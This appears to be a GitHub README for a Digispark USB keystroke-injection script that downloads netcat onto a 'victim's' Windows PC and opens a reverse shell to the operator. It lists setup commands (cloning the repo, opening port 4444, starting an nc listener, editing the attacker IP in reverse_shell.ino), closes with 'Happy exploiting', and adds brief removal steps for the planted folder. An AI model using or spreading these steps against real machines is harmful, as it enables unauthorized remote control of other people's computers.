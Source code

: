 ### Note the link in the script to download netcat on the victims pc will expire



## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 4444`


`nc -l 4444`


Change the IP on line 17 to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.

## How to remove:

Go to `C:\` and use the command `rmdir /S /Q win/`


Then reboot the target's compueter

Done!

